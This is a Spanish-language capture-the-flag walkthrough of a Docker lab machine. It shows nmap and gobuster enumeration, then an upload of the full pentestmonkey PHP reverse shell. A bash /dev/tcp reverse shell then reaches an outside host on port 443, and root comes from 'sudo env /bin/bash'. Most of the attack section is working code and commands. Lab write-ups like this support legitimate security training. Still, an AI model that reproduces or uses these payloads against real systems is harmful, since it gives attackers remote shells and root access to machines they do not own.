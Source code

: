 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129170850](https://github.com/user-attachments/assets/625fb784-e15c-4404-ae86-ef01257a99ea)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129171010](https://github.com/user-attachments/assets/dd899ca4-7367-4e67-b724-b5247bf4a2cb)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20241211175541](https://github.com/user-attachments/assets/d2aa4234-257c-4b88-83b4-f56a04d8c076)

Nos metemos en los directorios:

![Pasted image 20241211175247](https://github.com/user-attachments/assets/f6f0ecf6-66cf-47d4-be28-38f9024ddd6a)

![Pasted image 20241211175322](https://github.com/user-attachments/assets/01415bb3-7c03-4bca-950d-32c9a12c8d78)

Creamos payload en PHP:

![Pasted image 20241211182210](https://github.com/user-attachments/assets/2b2bc2eb-1707-4941-9ed5-aa7b42a8b188)

Creamos shell.php:

```Bash
nano shell.php
```

![Pasted image 20241211175648](https://github.com/user-attachments/assets/f801fbc0-87d7-4942-9ed2-cf4dcae7b6c0)

Pegamos código PHP:

```PHP
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.17.0.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![Pasted image 20241211182142](https://github.com/user-attachments/assets/d04ee130-2196-4c6c-acf4-5f9e95ed8ae8)

Subimos archivo PHP:

![Pasted image 20241211180228](https://github.com/user-attachments/assets/b5f44bb0-c608-4b6f-9e66-e5ec14d04154)

![Pasted image 20241211180322](https://github.com/user-attachments/assets/9b8bc42b-891c-4b5a-a956-3ccfb9c5070a)

Archivo subido:

![Pasted image 20241211180338](https://github.com/user-attachments/assets/1a2e2bf2-bc74-4ff1-a31f-11b93de718d5)

Comprobamos el archivo:

![Pasted image 20241211180358](https://github.com/user-attachments/assets/579b21df-a931-4833-8e73-b44f304d94cf)

Escuchamos en el puerto 4444:

```Bash
nc -lnvp 4444
```

![Pasted image 20241211180521](https://github.com/user-attachments/assets/cd87fb8e-3271-4317-b853-37e4118fd95c)

Escuchamos en otro puerto 443:

```Bash
nc -lnvp 443
```

![Pasted image 20241211184613](https://github.com/user-attachments/assets/a6020122-6a29-456d-880f-c99dc085d5c8)

Pinchamos en el archivo:

![Pasted image 20241211180553](https://github.com/user-attachments/assets/b4501304-d08c-4b8a-91d2-8167957332d7)

Recibimos conexión:

![Pasted image 20241211185803](https://github.com/user-attachments/assets/91dcdc54-9b4a-4ab4-aec3-6722b9b31f54)

Metemos el siguiente comando para enviar la conexión a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/10.0.2.42/443 0>&1"
```

![Pasted image 20241212095634](https://github.com/user-attachments/assets/3ffb442d-0bd5-45d5-93b6-b46618104f16)

Miramos la otra shell:

![Pasted image 20241211183437](https://github.com/user-attachments/assets/2da0a701-a278-4063-9c13-f0cc2378f7df)

Elevamos privilegios:

```Bash
sudo -l
```
![Pasted image 20241211183648](https://github.com/user-attachments/assets/b9749e94-50d0-41fc-8460-7a10b50780e6)

Elevamos con el comando env:

```Bash
sudo env /bin/bash
```

![Pasted image 20241211183830](https://github.com/user-attachments/assets/41a05934-b345-48d4-bdbd-3997fd8e8110)

